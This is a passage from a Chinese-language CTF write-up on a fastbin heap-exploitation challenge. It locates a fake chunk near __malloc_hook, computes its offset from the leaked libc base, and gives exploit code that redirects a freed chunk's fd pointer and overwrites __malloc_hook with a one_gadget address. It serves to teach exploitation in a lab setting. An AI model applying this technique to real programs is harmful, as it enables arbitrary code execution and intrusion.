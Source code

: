通过动态调试观察\_\_malloc\_hook附近是否有作为伪chunk的好地方

[![image]()](undefined)

发现有连续的8字节可以作为我们的伪chunk的size，精确定位一下：

[![image]()](undefined)

红线划着的地址就是伪chunk的地址，伪size就是0x7a了

> 注意，伪size的大小可能会变化，大家根据自己的实际情况来

但是本题是有ALSR、PIE的，因此该地址最好与泄露出来的libc地址进行联系，即算差值

`vmmap`查看内存映射

[![image]()](undefined)

确定libc基址是0x7a01d628a000

计算差值：

[![image]()](undefined)

差值就是0x3c4aed

此时，我们也可以确定要放入fastbin中chunk的大小了，就是0x70（即`Allocate(0x60)`）

> 为什么0x70就可以呢，0x70也不等于0x7a啊？
> 因为malloc检查的是大致的范围并不是精确范围

于是，我们可以构造payload：

```
# chunk入fastbin
    allocate(p,0x60)
    free(p,4)

    # 修改fd指针，这里不需要用到堆溢出来修改，因为我们已经完成了双指，index2还指着呢
    payload = p64(libc_base+0x3c4aed)
    fill(p,2,payload)

    # 申请伪chunk
    allocate(p,0x60)
    allocate(p,0x60)

    # 在伪chunk中写入数据
    payload = p8(0)*3
    payload += p64(0)*2
    payload += p64(libc_base+0x4526a) # one_gadget的地址
    fill(p,6,payload)
```

补充一下伪chunk写入数据的部分的相关分析：

我们写入数据的地方在0x7a01d664eafd

[![image]()](undefined)

\_\_malloc\_hook的地方在：0x7a01d664eb10
